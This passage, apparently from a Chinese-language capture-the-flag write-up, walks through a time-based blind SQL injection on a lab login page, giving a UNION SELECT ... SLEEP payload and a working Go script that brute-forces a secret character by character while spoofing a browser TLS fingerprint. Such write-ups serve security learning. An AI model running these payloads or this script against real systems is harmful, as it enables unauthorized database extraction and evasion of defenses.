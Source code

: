 SQL injection 用 UNION SELECT 要先找出欄位數量，題目有給 DB 結構，所以直接就知道是三個。然後我們想要 `secret_db.s3cret_table` 的 `secret`，因為沒辦法直接顯示出來，只能一個字一個字去比對出來。第一步我們想先知道 `secret` 的長度，這裡只能用 Time-based 的方法，當條件成真時 `sleep()` 幾秒，試了幾次後知道長度是 32。
- `user=kaibro' UNION Select 1,2,IF(length(secret)=32,SLEEP(5),0) FROM secret_db.s3cret_table WHERE id=1 -- '&pwd=123'`

接下來就是開始暴力比對密碼，一個字一個字拿出來比對 ASCII 碼，然後要注意的是 secret 每一段時間就會更新，所以千萬不要手動比對(對....我就浪費時間手動比對，也剛好知道可能字串是 [0-9a-f])，這邊也呼應前面所說的請用 Go 版本，因為 GO 比較好算時間差。

```go
package main

import (
    "fmt"
    "github.com/Danny-Dasilva/CycleTLS/cycletls"
    "strconv"
    "time"
    "net/http"
    "crypto/tls"
    "io/ioutil"
)

func main() {

    client := cycletls.Init()
    // secret length = 32
    // Body: 'user=kaibro' UNION Select 1,2,IF(length(secret)=32,SLEEP(5),0) FROM secret_db.s3cret_table WHERE id=1 -- '&pwd=123',
    secret := ""
    chars := "abcdef1234567890"

    for len(secret) < 32 {
        for _, char := range chars {
            payload := "user=kaibro' UNION Select 1,IF(SUBSTRING(secret," + strconv.Itoa(len(secret)+1) + ",1) = CHAR(" + strconv.Itoa(int(char)) + "),SLEEP(2),null),3 FROM secret_db.s3cret_table WHERE id=1 -- '&pwd=123"
            //fmt.Println(payload)
            start := time.Now()

            _, err := client.Do("https://10.99.111.111:8787/login.php", cycletls.Options{
                Body : payload,
                Ja3: "771,4865-4866-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0",
                UserAgent: "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0",
                Headers: map[string]string{
                    "Content-Type": "application/x-www-form-urlencoded",
                },
                InsecureSkipVerify: true,
                }, "POST");
            if err != nil {
                fmt.Print("Request Failed: " + err.Error())
            }

            elapsed := time.Since(start)
            //fmt.Println(elapsed)
            if (elapsed >= 2000000000) {
                secret = secret + string(char)
                fmt.Println(secret)
                break
            }
        }
    }
    http.DefaultTransport.(*http.Transport).TLSClientConfig = &tls.Config{InsecureSkipVerify: true}
    response, err := http.Get("https://10.99.111.111:8787/flag.php?secret=" + secret)
```